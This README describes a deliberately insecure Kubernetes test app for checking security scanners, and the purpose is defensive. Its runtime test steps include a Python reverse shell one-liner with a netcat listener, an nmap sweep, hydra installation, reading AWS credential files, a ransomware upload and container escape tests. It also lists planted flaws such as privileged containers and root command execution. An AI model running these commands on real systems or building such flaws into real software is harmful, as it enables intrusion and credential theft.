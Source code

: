 <p align="center"><img src="https://raw.githubusercontent.com/latiotech/LAST/main/logo.png" width="150" ><br><h1 align="center">Insecure Kubernetes App</h1>
</p>

![GitHub stars](https://img.shields.io/github/stars/latiotech/insecure-kubernetes-deployments?style=social)
![GitHub release (latest by date)](https://img.shields.io/github/v/release/latiotech/insecure-kubernetes-deployments)
![GitHub issues](https://img.shields.io/github/issues/latiotech/insecure-kubernetes-deployments)
![GitHub pull requests](https://img.shields.io/github/issues-pr/latiotech/insecure-kubernetes-deployments)
![GitHub](https://img.shields.io/github/license/latiotech/insecure-kubernetes-deployments)
[![Discord](https://img.shields.io/discord/1119809850239614978)](https://discord.gg/k5aBQ55j5M)
![Docker Pulls](https://img.shields.io/docker/pulls/confusedcrib/insecure-app)

Test every type of configuration scanner against a single repo that's comically insecure with documented issues

[About Latio](https://latio.tech)  

- [Deployment](#deployment)
- [Issues to Test](#this-repo-contains-the-following-issues)
- [Testing Details](#testing)

## Deployment:

This will create an EKS cluster with some insecure application pods for testing.

1. Make sure you have [Terraform](https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli), [Helm](https://helm.sh/docs/intro/install/), [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html), [eksctl](https://eksctl.io/installation/) and a valid AWS user configured

2. Move to terraform directory, `cd terraform`

3. Apply the terraform, this creates an EKS cluster for testing: `terraform init` `terraform plan` `terraform apply` This creates two EKS node groups, one publicly accessible over SSH and another private. These will run small instances, be sure to `terraform destroy` when you're done for minimal fees. This takes about 15 minutes.

4. Add the Terraform EKS details to your kubeconfig
```
aws eks --region $(terraform output -raw region) update-kubeconfig \
    --name $(terraform output -raw cluster_name)
```

5. Grant your user access to the kubernetes cluster you created - through the Console it's adding the AmazonEKSAdminPolicy and AmazonEKSClusterAdminPolicy to your user. [Console](https://console.aws.amazon.com/eks/home#/clusters) > Access > Create access entry > Select your current user > Add AmazonEKSAdminPolicy and AmazonEKSClusterAdminPolicy. I didn't test this, but there's probably a one liner to do this with CLI like `aws eks create-access-entry --cluster-name my-cluster --principal-arn arn:aws:iam::111122223333:user/my-user --type Standard --username my-user`

6. Move to the helm chart directory `cd ../insecure-chart/`

7. Deploy the insecure app, busybox pod, and workload security evaluator `helm install insecure-app . --create-namespace --namespace=insecure-app`

8. To test in these pods:

Get pod name, `kubectl get pods -n insecure-app` or `kubectl get pods -n insecure-app`

For testing insecure-app, run `kubectl port-forward pod/[POD-NAME] 8080:8080 -n insecure-app`. You can now test in your browser at `http://localhost:8080/`

For workload-security-evaluator, run `k exec -it [POD-NAME] -n insecure-app -- /bin/bash`, then `pwsh` to being invoking tests such as `Invoke-AtomicTest T1105-27 -ShowDetails`

9. `terraform destroy` when you're done!


## This Repo Contains the following issues:

### General Configuration Issues

1. Busybox is deployed as a long running pod with plenty of dangerous utilities on it
2. Insecure App has fake AWS access keys as env variables, mounts the docker socket, runs in privileged mode, is open on port 8080 and port 22, and binds an SA role with permissions to create more SA roles
3. Workload Security Evaluator contains all the same issues

### Insecure-app

1. Takes raw input as a web form and runs it as root on the server and returns the input to the user
2. Allows for unvalidated file uploads
3. Is running in debug mode
4. Has way more utilities on its Dockerfile than it needs

### Workload-security-evaluator

1. Is forked from [DataDog](https://github.com/DataDog/workload-security-evaluator)
2. Is used for running tests from [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)

# Testing 

## Misconfigurations

1. AWS creds in env variables
2. SSH port open
3. SA credentials have ability to create new credentials
4. Privileged container
5. Docker socket mounted

## Runtime

1. Run `python3 --version` and `ls -al` via the web form  - detects if it can tell that the python process is running bash commands
2. Run `apt-get update` and `apt-get install hydra -y` - to check for package installs
3. Scan the local port range to look for network detections - `nmap -sS 192.168.1.1-254`
4. Try to spawn a reverse shell
    - bash into workload-security and run `apt-get install netcat`
    - `nc -lvnp 9001`
    - `export RHOST="WORKLOAD-POD-IP";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
5. Check what secrets we might have access to `printenv` and `cat ~/.aws/credentials`
6. Upload ransomware python script `ransomware.py`- this will indicate the level of alerting, if it's new file, python, or specifics about the python
7. Exec into the workload security evaluator pod with `k exec -it [POD-NAME] -n insecure-app -- /bin/bash`, then `pwsh`
8. `Invoke-AtomicTest T1105-27` - download and run a file
9. `Invoke-AtomicTest T1046-2` - run nmap
10. `Invoke-AtomicTest T1053.003-2` - modify cron jobs
11. `Invoke-AtomicTest T1070.003-1` - clear bash history
12. `Invoke-AtomicTest T1611-1,2` - Container escape
13. Check agent utilization with `k top pod --all-namespaces`
<<<<<<< HEAD
=======

Readme change
>>>>>>> b8e1c4d61873ed7566d33dcd8bd4b76bcf86e450
